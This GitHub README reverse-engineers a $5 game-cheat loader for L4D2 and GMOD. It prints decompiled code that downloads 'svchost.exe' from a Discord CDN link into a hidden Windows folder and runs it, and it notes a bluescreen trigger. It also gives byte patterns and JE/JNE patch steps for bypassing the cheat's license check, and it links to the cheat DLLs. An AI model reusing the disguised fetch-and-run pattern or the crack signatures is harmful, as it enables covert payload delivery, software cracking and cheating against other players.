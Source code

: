 
# freekstyle|bankroll p2c 

Recently I stumbled upon a new skid-cheat provider which offers basic cheats for several games.

I took a look at it and well, this is a great example of a generic wannabe p2c.

It all began when a video popped up in my recommended videos. I checked the description
and this lead me to this 




## First look

 - Basic Mybb Template
 - Loader access without a specific usergroup
 - Full of ads
 - No SSL certificate ( it's free !)
- Lets better skip this part and go on to the actual show , you can take a look at it yourself [here](http://freekstyle.mybb.online/)
## The Forum

![App Screenshot](https://bilderupload.org/image/667005446-ads54072f485cdb7897e68005.png)




## The Loader

First thing I did after downloading the loader was running it through ExeinfoPE to know what I'm dealing with.




![App Screenshot](https://bilderupload.org/image/02c206094-exeinfo.png)

Seems like the good old themida, wonder where he's got that old version from.......


![App ss](https://bilderupload.org/image/fc2e06248-themidasec.png)

Verified. The EP is virtualized default when using themida - in this case this is the only thing being virtualized.








## Let's run it

After executing the loader a exciting and perfectly aligned login window pops up






![TheLoader](https://bilderupload.org/image/052706556-mainloader.png)




Dumped , IAT fixed & dragged into holy IDA 



![Dumped](https://bilderupload.org/image/1c6707049-epb571ecea16a982402680070.png)






![iat](https://bilderupload.org/image/860907125-iat21e8cadba9839cd2268007.png)

First thing I always do is check for string refs and guess what.

![ref](https://bilderupload.org/image/0cdf07226-xref.png)


Hardcoding stuff is fun
![hards](https://bilderupload.org/image/bb5713617-hardcoded.png)

The loader will also bluescreen you using NtRaiseHardError when specific conditions met.


## xreffed & decompiled

```c
 if ( (unsigned __int8)s(&xmmword_7FF6D9AE3330, "L4D2") )
    {
      v207 = (char *)4740038608942006272i64;
      if ( (unsigned __int8)imguibutton("L4D2##CSGOinj", &v207) )
      {
        sub_7FF6D9A59670(&v261, "C:\\Windows\\Cursors\\Microsoft");
        sub_7FF6D9A598F0(&v298, &v261, "\\svchost.exe");
        sub_7FF6D9A59670(
          &v262,
          "https://cdn.discordapp.com/attachments/1014682516361322568/1037666382105542746/svchost.exe");
        v192 = (const CHAR *)sub_7FF6D9A59600(&v261);
        if ( CreateDirectoryA(v192, 0i64) || GetLastError() == 183 )
        {
          SetFileAttributesA("C:\\Windows\\Cursors\\Microsoft", 2u);
        }
        v193 = (const CHAR *)sub_7FF6D9A59600(&v262);
        DeleteUrlCacheEntryA(v193);
        sub_7FF6D9A59600(&v298);
        v194 = (const CHAR *)sub_7FF6D9A59600(&v262);
        if ( URLDownloadToFileA(0i64, v194, v195, 0, 0i64) < 0 )
        {
          MessageBoxA(0i64, "Error : 0x2EE4", "Status", 0);
        }
        Sleep(0x1388u);
        MessageBoxA(0i64, "Start The Game", "Status", 0);
        *(_OWORD *)&StartupInfo.cb = 0i64;
        *(_OWORD *)&StartupInfo.lpDesktop = 0i64;
        *(_OWORD *)&StartupInfo.dwX = 0i64;
        *(_OWORD *)&StartupInfo.dwXCountChars = 0i64;
        *(_OWORD *)&StartupInfo.wShowWindow = 0i64;
        *(_OWORD *)&StartupInfo.hStdInput = 0i64;
        StartupInfo.hStdError = 0i64;
        *(_OWORD *)&ProcessInformation.hProcess = 0i64;
        *(_QWORD *)&ProcessInformation.dwProcessId = 0i64;
        CreateProcessA(
          "C:\\Windows\\Cursors\\Microsoft\\svchost.exe",
          0i64,
          0i64,
          0i64,
          0,
          0,
          0i64,
          0i64,
          &StartupInfo,
          &ProcessInformation);
        exit(0);
      }
    }
```

Yes, this is a actual $5 cheat.


## Following the path

'svchost.exe' will be downloaded. Stealth 100.

It's also packed using themida, we can see here that it loads the CLR so I'm assuming it's written in .NET

![clr](https://bilderupload.org/image/0ebc08060-clrc8cd63e1bf13c501668008.png)

Simply dumping a .NET executable removes  almost everything made by themida to protect the application
![dmp](https://bilderupload.org/image/987208331-dumped.png)

Dragging it into DNSpy..

![dmp](https://bilderupload.org/image/0db208400-interesting.png)

...Literally browsing for 15 seconds.




I don't know why someone would use a .NET executable to inject a cheat, whatever.

![dmp](https://bilderupload.org/image/cf0408567-lol4a533591763dfa74368008.png)



## Runtime Patch

After downloading & Injecting the dll it seems like the "developer" added a single auth check.

![log](https://bilderupload.org/image/8db111732-login.png)




To bypass that either nop the JE [ jump if equal ] instruction or patch it to a JNE [ jump if not equal ].

![bp](https://bilderupload.org/image/efdd11801-signautre.png)


Do whatever you have to do.

## Results for you

Patterns for some dll's

```c
      L4D2      \x0F\x84\x00\x00\x00\x00\x68\x00\x00\x00\x00\xC6 xx????x????x
      GMOD:     \x0F\x84\x00\x00\x00\x00\xC7\x45\xCC xx????xxx RVA 0x55C5
```

To find it manual xref that:
![manual](https://bilderupload.org/image/0aa213140-xref2.png)

And you'll land right on this sweet little check
![herex](https://bilderupload.org/image/31bd13190-instruct.png)

## Buy a kebap instead of wasting $5 on this

![gmod](https://bilderupload.org/image/f26b12980-gmod.png)
![l4d](https://bilderupload.org/image/acb513501-l4d2.png)


Latest dll files right from the p2c itself at https://github.com/UltraV0d/fnn




